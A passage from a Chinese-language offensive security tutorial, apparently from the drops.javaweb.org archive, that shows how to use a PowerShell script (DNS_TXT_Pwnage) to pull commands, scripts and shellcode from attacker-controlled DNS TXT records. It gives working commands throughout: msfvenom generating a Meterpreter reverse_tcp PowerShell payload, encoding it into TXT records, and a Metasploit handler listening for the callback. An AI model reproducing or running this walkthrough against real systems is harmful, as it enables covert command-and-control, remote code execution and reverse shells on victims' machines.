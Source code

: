 此处比较重要的参数为**startdomain**，他会与我们输入的cmdstring以及psstring进行比较，如果与cmdstring值相等，则执行**commanddomain**即命令，与psstring相等则执行**psdomain**即脚本。

上面为执行命令，所以cmdstring值我们输入为start，与start.evi1cg.me的txt记录值相等，psstring随便输入，不留空就行。执行结果如下图：

![Alt text](http://drops.javaweb.org/uploads/images/aed46d02fd8a68ca2f204afa63367c20610decac.jpg)

我们可以通过修改command.domain的TXT值来执行不同的命令。比如Get-Host：

![Alt text](http://drops.javaweb.org/uploads/images/3abc9d3226291b93b12b1d08307b940e3302d43e.jpg)

2.执行脚本
------

```
PS F:\DNS> . .\DNS_TXT_Pwnage.ps1
PS F:\DNS> DNS_TXT_Pwnage -startdomain start.evi1cg.me -cmdstring bulabula -commanddomain command.evi1cg.me -psstring start -psdomain ps.evi1
cg.me -Arguments Get-User -Subdomains 2 -StopString stop

```

这里要注意，psstring的值为start，与start.domain的TXT记录相同，cmdstring为任意字符串。效果如下图：

![Alt text](http://drops.javaweb.org/uploads/images/dcf40ec9b538bf5e6771ee36ef8ec138d41ace22.jpg)

> 这里多一个参数**Arguments**，要写明要执行的函数名，测试发现，在脚本中含有中文时会失败。对于需要带参数的脚本可以修改脚本指定参数值。

0x03 执行Shellcode
================

* * *

可以通过TXT记录执行shellcode，首先，我们使用msf生成一个powershell的shellcode:

```
☁  ~  sudo msfvenom -p windows/meterpreter/reverse_tcp -f powershell LHOST=x.x.x.x LPORT=8887 > pspayload.txt

```

使用Out-DnsTxt对生成的文件进行转换：

```
PS F:\DNS> Out-DnsTxt -DataToEncode .\pspayload.txt
You need to create 3 TXT records.
All TXT Records written to F:\DNS\encodedtxt.txt

```

然后将以上记录分别添加到TXT记录中，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/bc339674bde592c49e59646eefa825f678f75fdf.jpg)

测试使用的32位win7系统，使用msf开启监听：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 8887
LPORT => 8887
msf exploit(handler) > set LHOST x.x.x.x
LHOST => x.x.x.x
msf exploit(handler) > exploit    

[*] Started reverse handler on x.x.x.x:8887
[*] Starting the payload handler...

```

